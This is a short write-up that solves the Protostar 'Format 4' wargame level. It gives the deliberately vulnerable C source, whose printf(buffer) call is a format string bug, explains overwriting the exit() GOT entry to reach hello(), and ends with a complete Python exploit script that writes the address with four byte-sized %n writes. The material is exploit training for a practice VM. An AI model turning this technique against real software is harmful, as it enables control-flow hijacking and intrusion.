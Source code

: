 # A-short-solution-to-Protostar-level-Format-4
## the c-code
Here's the source code 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```
As you can see the main function calls vuln() which calls fgets to take input in the buffer and the print it via printf() and *then calls the exit function*
Our aim is to redirect the code execution to hello(). This is an easy problem so I will only *very* briefly explain the basic idea behind the soution. 

Since there is a exit call, there is no use of overwriting the return address pointer on the stack.

To redirect the code execution, we simply go to procedure linkage table of the program which will lead us to the exit address on the Global offset table.
Now we exploit the format string exploit to overwrite it. 
Now the usual solutions you will see on internet(like the one on the live overflow website) involve overwriting it in two parts using format specifier %n and some little neat tricks with their modifiers.
But half the hexadecimal address is still a very large number in decimal. We have to print thousands of blank spaces to achieve that overwrite.

What we can do instead is write the address partially in four passes writing 1 byte in each passes. We can significantly reduce the number of printed characters from tens of thousands to a few hundred. 
There will be over flow in each write but that will get overwritten in the next pass and in the 4th pass the overflow will be to the next memory adress (with reference to the script it'll be at EXIT4) but since we care only about 4 bytes it'll work

Note that the code will only run on protostarOS for obvious reasons.

## Here's the actual python code to do so
```
import struct
HELLO = 0x080484b4
EXIT = 0x08049724
EXIT1 = 0x8049725
EXIT2 = 0x8049726
EXIT3 = 0x8049727
EXIT4 = 0x8049728
def pad(s):
   return s+"X"*(512-len(s))

exploit = ""
exploit+= "AAAA"
exploit+= struct.pack("I",EXIT)
exploit+= struct.pack("I",EXIT1)
exploit+= struct.pack("I",EXIT2)
exploit+= struct.pack("I",EXIT3)
exploit+= struct.pack("I",EXIT4)

exploit+= "i%4$155x%5$n%208x%6$n%128x%7$n%260x%8$n"

print pad(exploit)
```
